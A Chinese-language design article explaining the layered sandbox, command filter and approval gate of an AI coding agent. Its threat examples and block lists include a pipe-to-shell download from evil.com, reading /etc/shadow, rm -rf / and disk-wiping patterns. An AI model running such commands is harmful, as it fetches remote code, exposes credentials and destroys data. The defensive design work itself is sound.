


# 聊聊 work-agent 的沙箱体系

> 给 AI Agent 加一道"笼子"，听起来像给猫戴项圈——猫不乐意，但家里沙发能保住。
>
> 这篇文章用大白话讲清楚：我们的命令到底在哪跑、能碰什么、为什么这么设计、对你有什么好处，以及一条命令从模型嘴里说出来到真正执行的完整旅程。所有代码细节都对照 `agent/runtime/sandbox.py` 与 `agent/runtime/approval.py`，放心看。

---

## 一、背景：为什么 Agent 必须有个"笼子"

普通程序是"你写啥它跑啥"，可控。但 AI Agent 不一样，它会**自己决定**下一步干啥：

- 它要读文件（`cat src/main.py`）、改文件（`sed -i ...`）、跑构建（`npm run build`）；
- 它还可能干蠢事（`rm -rf /`）、联网（`curl https://evil.com/x.sh | bash`）、翻系统秘密（`cat /etc/shadow`）。

最要命的是：**你不能靠"让模型别干坏事"来保安全**。在 system prompt 里写"请不要删除重要文件"是软约束——模型心情好就听，被越狱、被诱导、或者单纯抽风时就当耳旁风。一句话：**prompt 不是安全边界，操作系统才是。**

所以得在模型和执行命令之间，插一道**真正由操作系统强制的墙**。这就是沙箱（Sandbox）存在的理由。

---

## 二、核心思路：两条独立的线，加一个可插拔执行层

我们借鉴了 OpenAI Codex CLI 的两层模型，把"要不要问人"和"技术上能碰什么"彻底拆开：

| 层 | 管什么 | 谁强制 | 配置项 |
|---|---|---|---|
| **① 审批层（Approval）** | 执行前**要不要问人**（流程控制） | 运行时策略 | `approval.mode` |
| **② 沙箱层（Sandbox）** | 技术上**能碰什么**（权限控制） | 操作系统 + 应用层 | `sandbox_mode` + `sandbox_profile` |

两件事**配置上正交，执行时取 AND**：一条命令必须两层都放行才跑得成。审批通过了**不等于**脱离沙箱——它只是"被允许去申请更高权限"，沙箱仍是最后那道墙。

沙箱层本身被设计成一个**可插拔的执行抽象**。`bash` 工具不再自己直接 `subprocess`，而是构造一个 `ExecRequest`，交给 `get_executor().run()`。要换执行环境（本地 / Docker / 外部），或者测试时换成假执行器，都只是换个实现，业务代码一行不动。

```python
# agent/runtime/sandbox.py（精简）
class LocalExecutor:
    name = "local"
    async def run(self, req: ExecRequest) -> ExecResult:
        ...  # 先过 CommandFilter，再按内核选隔离手段，最后真正 spawn

# bash 工具（agent/tools/bash.py）：绝不直接 subprocess
executor = get_executor()
req = ExecRequest(cmd=cmd, cwd=Path.cwd(), env=env, timeout=timeout, profile=executor.default_profile)
r = await executor.run(req)
```

记住一句话：**审批决定"要不要先说一声"，沙箱决定"出门后的活动范围"。**

---

## 三、沙箱长啥样：三档 profile + 三种执行器

### 3.1 三档权限 profile

任何命令执行时都带一个 `profile`，决定隔离强度。注意**网络默认拒绝**：

| Profile | 文件系统 | 网络 | 典型用途 |
|---|---|---|---|
| `read-only` | 任意读，禁止写 | 拒绝 | 探索代码、只读跑测试 |
| `workspace-write` | 读任意；**仅工作区（cwd）可写** | 拒绝 | 开发主档：写文件、改代码、跑构建（默认档） |
| `danger-full` | 完全访问 | **放行** | 联网装依赖、访问远程服务（用户显式承担风险） |

### 3.2 三种执行器（Executor）

`Executor` 是个 Protocol，只要满足 `name` + `async run(req) -> ExecResult` 就能当执行器。目前落地四种：

| 执行器 | `name` | 行为 |
|---|---|---|
| `LocalExecutor` | `local` | 本地进程；按运行时内核选隔离（默认） |
| `DockerExecutor` | `docker` | 一次性容器，profile 映射为挂载与网络 |
| `ExternalExecutor` | `external` | 直通，外层环境自己负责隔离 |
| `FakeExecutor` | `fake` | 测试用：记录全部请求、脚本化返回，不碰真系统 |

工厂按 `sandbox_mode` 造执行器：

```python
def build_executor(mode, *, workspace, profile=WORKSPACE_WRITE, pipeline=None):
    if mode == "local":   return LocalExecutor(workspace=workspace, profile=profile, pipeline=pipeline)
    if mode == "docker":  return DockerExecutor(workspace=workspace, profile=profile)
    if mode == "external":return ExternalExecutor(workspace=workspace, profile=profile)
    raise ValueError(f"unknown sandbox mode: {mode!r}")
```

模块级还有一对注入点 `get_executor()` / `set_executor(ex)`，测试时一行 `set_executor(FakeExecutor(...))` 就接管了所有命令执行——**确定性、不依赖 root、不联网**。

---

## 四、纵深防御：CommandFilter 这道"软墙"

光靠操作系统还不够（比如 Windows / macOS 没有 Linux 那种内核原语）。我们在 spawn 之前，先对命令做一遍**静态分析**，作为应用层的纵深防御。这就是 `CommandFilter`。

它干三件事：

1. **查联网**：`curl` / `wget` / `ssh` / `scp` / `git clone` / `pip install` / `npm install` …… 这些在断网 profile 下一律拦。
2. **查越界写**：把命令里的写目标解析成绝对路径，看是不是落在 `cwd` 内。`workspace-write` 下写到 `/etc` 这种外面去，拦。
3. **查破坏**：`rm -rf /`、`dd of=/dev/sd*`、`mkfs`、fork bomb、关机重启……正则命中即拦。

逻辑很直白：

```python
# agent/runtime/sandbox.py（精简）
class CommandFilter:
    def check(self, cmd, profile, *, cwd) -> FilterVerdict:
        if profile is SandboxProfile.DANGER_FULL:
            return FilterVerdict(blocked=False)          # 危险档：全放行，用户自担
        has_network, write_targets = _analyze(cmd)
        if has_network:
            return FilterVerdict(True, "沙箱拦截：断网 profile 禁止网络访问")
        if write_targets:
            if profile is SandboxProfile.READ_ONLY:
                return FilterVerdict(True, "沙箱拦截：read-only profile 禁止任何写入")
            for t in write_targets:
                if not _is_within(t, cwd):
                    return FilterVerdict(True, f"沙箱拦截：越界写 {t}")
        if _is_catastrophic(cmd):
            return FilterVerdict(True, "沙箱拦截：破坏性命令被禁止")
        return FilterVerdict(blocked=False)
```

几个诚实的小细节：

- `_analyze` 会先把 `> /dev/null`、`2>&1` 这类黑洞重定向剥掉再算写目标，所以 `echo x > /dev/null` 不会被误判成"写文件"。
- 整条命令按 `; && || |` 切段，每段独立分析，所以 `ls && curl evil.com` 里藏的联网也逃不掉。
- `danger-full` **直接跳过** `CommandFilter`——网络与写全部放行，因为这是用户显式接受风险的档位。

---

## 五、本地执行器怎么挑隔离手段

`LocalExecutor` 有个关键设计：**按"运行时内核"选隔离手段，而不是按"是不是 Windows 机器"**。

```python
def _choose_isolation(self):
    if hasattr(os, "uname"):                          # 仅 Unix 有 uname
        if os.uname().sysname == "Linux" and self._unshare_available():
            return "linux-kernel"                     # 内核级无网命名空间
        _log.warning("unshare 不可用，降级为进程级执行（无 OS 网络隔离）")
        return "app-layer"
    return "app-layer"                                # 原生 Windows / macOS
```

实际跑命令时：

```python
async def _do_run(self, req):
    verdict = self._filter.check(req.cmd, req.profile, cwd=req.cwd)
    if verdict.blocked:
        return ExecResult(ok=False, output="", error=verdict.reason, returncode=-1, sandbox=self.name)
    if self._isolation == "linux-kernel" and req.profile != DANGER_FULL:
        argv = ["unshare", "-n", *base_argv]          # 内核级：进一个无网命名空间
        return await _run_subprocess(argv, ...)
    return await _run_subprocess(base_argv, ...)      # 普通进程 + CommandFilter 守护
```

也就是说：

| 平台 / 环境 | 隔离手段 | 说明 |
|---|---|---|
| Linux（内核 ≥5.13，有 `unshare`） | `unshare -n` 无网命名空间 + CommandFilter | 内核级，零依赖，无需 root |
| Linux（旧内核 / 无权限） | CommandFilter 应用层 + ⚠️ 告警降级 | 绝不抛异常中断 Agent |
| 原生 Windows / macOS | CommandFilter 应用层主动拦截 | 真隔离靠 `docker` / `external` |
| Docker 模式 | 一次性容器 | 见下 |

诚实边界摆在这里：**原生 Windows / macOS 的 `local` 只是应用层软约束（理论上可被混淆命令绕过），要硬隔离请上 `docker` 或 `external`。** 我们不假装"本地模式在 Windows 上刀枪不入"。

`DockerExecutor` 则把 profile 直接映射成容器参数，硬隔离最干净：

```bash
# read-only      →  docker run --rm -w /work -v <ws>:/work:ro  --network none   /bin/sh -c <cmd>
# workspace-write→  docker run --rm -w /work -v <ws>:/work:rw  --network none   /bin/sh -c <cmd>
# danger-full    →  docker run --rm -w /work -v <ws>:/work:rw  --network host   /bin/sh -c <cmd>
```

---

## 六、审批策略：四种模式一句话

沙箱管"能不能做"，审批管"要不要先问人"。两者是正交的两层。审批由 `ApprovalGate` 实现，四种模式对应 Codex 的 `AskForApproval`：

| 模式 | 一句话语义 | 什么情况会弹审批框 |
|---|---|---|
| `on-request`（默认） | 默认直接执行；模型觉得危险就主动请求 | 仅当模型在单条命令显式标 `_approval_request` |
| `unless-trusted` | 不信任列表外的写/执行每步都问 | `edit`/`exec` 每次都问；`exec_policy` 命中者免审；`read` 自动过 |
| `on-failure` | 先执行，失败了再问怎么补救 | 执行成功不问；失败才把球踢回用户 |
| `never` | 永远不问；权限不够就直接失败 | 永不弹框（非交互 / 无人值守场景） |

配一张决策矩阵更直观（✅ = 直接执行，❓ = 弹框问人）：

| 模式 \ 风险 | read | edit | exec |
|---|---|---|---|
| `on-request` | ✅ | ✅* | ✅* |
| `unless-trusted` | ✅ | ❓ | ❓ |
| `on-failure` | ✅ | ✅（失败才❓） | ✅（失败才❓） |
| `never` | ✅ | ✅（不足直接失败） | ✅（不足直接失败） |

`*`：`on-request` 下只有模型显式 `_approval_request` 才触发弹框；其余情况一律直接执行。

> 提权自动：只要命令经弹框→批准、且需要当前 profile 不允许的能力（如联网），就自动以 `elevated_profile`（默认 `danger-full`）临时执行，用完即回受限档。普通直接执行不提权——失败走 `on-failure`，模型从沙箱报错里学习并加 `_approval_request` 重试。

---

## 七、一条命令从出生到执行：完整流程

把沙箱放进整个 Agent 循环里看。前面是审批门（决定问不问人），后面是沙箱（决定能不能做）：



再单独看沙箱内部那一道 `CommandFilter` 的判定树：



注意一个反直觉但很重要的点：**就算 LLM 判断失误、没发起审批，命令照样得过沙箱这一关。** 权限不够执行就 `Permission denied` 失败，绝不会因为模型"忘了问"就越权得手。安全兜底的永远是操作系统，不是模型。

---

## 八、配置：三个旋钮

沙箱相关配置都进 `Settings`，走"内置默认 → 用户级 → 项目级 → CLI 参数"四级合并。最关键的是三个旋钮：

| 旋钮 | 取值 | 默认 | 回答的问题 |
|---|---|---|---|
| `sandbox.mode` | `local` / `docker` / `external` | `local` | 命令**在哪**跑（执行器类型） |
| `sandbox.profile` | `read-only` / `workspace-write` / `danger-full` | `workspace-write` | 命令**能碰什么**（隔离强度） |
| `approval.mode` | `on-request` / `unless-trusted` / `on-failure` / `never` | `on-request` | 命令**要不要先问**（HITL） |

写在 `<项目根>/.agent/settings.yaml` 即可，例如：

```yaml
sandbox:
  mode: local
  profile: workspace-write
approval:
  mode: on-request
  exec_policy: ["ls ", "cat ", "/^git (status|diff)$/"]
  noninteractive_default: allow
  elevated_sandbox_profile: danger-full
```

> `exec_policy` 只在 `unless-trusted` 模式有效（命中者免审）；其余模式忽略。支持前缀匹配（`ls `）和正则（`/.../` 包裹）。

---

## 九、好处小结

把今天讲的揉成一张表：

| 好处 | 怎么来的 |
|---|---|
| **真安全边界** | 权限由 OS（unshare / Docker / 容器挂载）+ 应用层 CommandFilter 强制，不靠模型自觉 |
| **网络默认断** | 三档 profile 默认拒绝联网，`danger-full` 才放行，且需用户显式接受 |
| **可插拔易测试** | `bash` 只调 `get_executor().run()`；测试注入 `FakeExecutor`，零 root / 零网络 / 确定性 |
| **跨平台不踩坑** | 按运行时内核选隔离，而非"是不是 Windows"；不可用就降级告警，绝不崩循环 |
| **审批与沙箱解耦** | 两层正交、执行时 AND；提权自动（批准需联网 → 临时 `danger-full`，用完即回受限） |
| **诚实透明** | 软约束平台不假装硬隔离；拦截带明确中文原因，便于排查 |

---

## 十、小结

一句话收尾：

> **安全在操作系统层，不在 prompt 里。** 我们用一个可插拔的执行抽象把"命令在哪跑、能碰什么、能否联网"从 `bash` 工具里抽出来，三档 profile 默认断网，本地执行器按内核挑隔离手段，再叠一层 CommandFilter 做应用级纵深防御；审批门只决定"要不要先问人"，沙箱才是最后那道墙。模型可以犯迷糊，墙不会。

下次你看到 `沙箱拦截：断网 profile 禁止网络访问` 这种报错，就知道：不是模型小气，是它的"活动范围"本来就没包括外网——想联网，得先走审批把档位提上去。

---

*想看代码？入口在这里：*
- *执行层：`agent/runtime/sandbox.py`（`Executor` / `LocalExecutor` / `DockerExecutor` / `ExternalExecutor` / `FakeExecutor` / `CommandFilter` / `build_executor`）*
- *审批门：`agent/runtime/approval.py`（`ApprovalGate` / `ApprovalMode` / `Action` / `Decision`）*
- *bash 工具：`agent/tools/bash.py`（只构造 `ExecRequest`，不直接 subprocess）*
- *循环集成：`agent/core/loop.py`（`_exec_tools` 过审批门 → `_run_bash_in_sandbox` 落执行器）*
- *配置：`agent/config/settings.py`（`SandboxConfig` / `ApprovalConfig`）*
- *设计依据：`knowledge/sandbox-approval-design.md`*
